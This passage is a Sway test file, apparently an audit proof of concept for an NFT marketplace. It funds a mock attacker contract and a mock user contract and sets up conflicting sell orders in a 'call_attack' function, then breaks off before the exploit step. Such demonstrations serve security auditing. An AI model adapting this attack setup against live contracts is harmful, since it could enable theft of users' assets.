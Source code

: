 ```rs

  asset_mngr.add_asset(asset_id);
  execution_manager.add_strategy(ContractId::from(strategy_fixed_price_sale::CONTRACT_ID));

  // fund users of the protocol
  example_asset.mint(Identity::ContractId(ContractId::from(test_attacker::CONTRACT_ID)), DEFAULT_SUB_ID, 1000);
  example_asset.mint(Identity::ContractId(ContractId::from(test_user::CONTRACT_ID)), DEFAULT_SUB_ID, 1000);

  // fund users of the protocol
  let SUB_ERC_1155_ID: SubId = 0x0000000000000000000000000000000000000000000000000000000000000001;
  example_asset.mint(Identity::ContractId(ContractId::from(test_attacker::CONTRACT_ID)), SUB_ERC_1155_ID, 1000);
  example_asset.mint(Identity::ContractId(ContractId::from(test_user::CONTRACT_ID)), SUB_ERC_1155_ID, 1000);
}

fn call_attack() {
  let SUB_ERC_1155_ID: SubId = 0x0000000000000000000000000000000000000000000000000000000000000001;

  let user = abi(TestUser, test_user::CONTRACT_ID);
  let attacker = abi(TestAttacker, test_attacker::CONTRACT_ID);

  let asset_id = AssetId::new(ContractId::from(test_asset::CONTRACT_ID), DEFAULT_SUB_ID);
  let strategy = ContractId::from(strategy_fixed_price_sale::CONTRACT_ID);

  let params = ExtraParams {
    extra_address_param: ZERO_ADDRESS,
    extra_contract_param: ZERO_CONTRACT_ID,
    extra_u64_param: 0,
  };

  let order = MakerOrderInput {
    side: Side::Sell,
    maker: Address::from(test_user::CONTRACT_ID),
    collection: ContractId::from(test_asset::CONTRACT_ID),
    token_id: SUB_ERC_1155_ID,
    price: 500,
    amount: 100,
    nonce: 1,
    strategy: strategy,
    payment_asset: asset_id,
    expiration_range: 1000,
    extra_params: params,
  };

  // user places ordinary sell order
  user.place_sell_order(order);


  let order = MakerOrderInput {
    side: Side::Sell,
    maker: Address::from(test_attacker::CONTRACT_ID),
    collection: ContractId::from(test_asset::CONTRACT_ID),
    token_id: SUB_ERC_1155_ID,
    price: 500,
    amount: 1,
    nonce: 1,
    strategy: strategy,
    payment_asset: asset_id,
    expiration_range: 1000,
    extra_params: params,
```
